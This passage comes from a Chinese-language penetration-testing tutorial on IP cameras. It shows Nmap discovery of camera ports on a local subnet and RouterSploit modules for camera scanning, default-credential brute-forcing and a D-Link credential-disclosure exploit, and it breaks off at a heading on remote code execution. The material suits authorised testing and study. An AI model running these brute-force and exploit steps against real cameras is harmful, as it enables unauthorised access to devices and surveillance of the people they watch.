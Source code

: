### 2. 摄像头服务发现
```bash
# 使用 Nmap 先发现摄像头服务
nmap -sS -p 80,81,443,554,8554,8000,8080 192.168.1.0/24 --open

# 554 端口通常是 RTSP 服务
# 80/443 是 Web 管理界面
# 8000/8080 常见于监控系统
```

### 3. 摄像头专用扫描模块
```bash
# 摄像头通用扫描
rsf > use scanners/camera_scanner
rsf (Camera Scanner) > set target 192.168.1.100
rsf (Camera Scanner) > run
```

---

## 四、摄像头凭证攻击

### 1. 默认口令测试
```bash
# HTTP 基础认证暴力破解
rsf > use creds/cameras/http_basic_bruteforce
rsf (HTTP Basic Bruteforce) > set target 192.168.1.100
rsf (HTTP Basic Bruteforce) > set usernames admin,root,user
rsf (HTTP Basic Bruteforce) > set passwords admin,12345,password,123456
rsf (HTTP Basic Bruteforce) > run

# 摄像头 Web 表单登录暴力破解
rsf > use creds/cameras/web_bruteforce
rsf (Camera Web Bruteforce) > set target 192.168.1.100
rsf (Camera Web Bruteforce) > set path /login.php
rsf (Camera Web Bruteforce) > set username_field username
rsf (Camera Web Bruteforce) > set password_field password
rsf (Camera Web Bruteforce) > run
```

### 2. 凭证泄露利用
```bash
# 利用信息泄露漏洞获取凭证
rsf > use exploits/cameras/dlink/dir_6xx_credential_disclosure
rsf (D-Link DIR-6XX Credential Disclosure) > set target 192.168.1.100
rsf (D-Link DIR-6XX Credential Disclosure) > run
```

---

## 五、摄像头远程代码执行
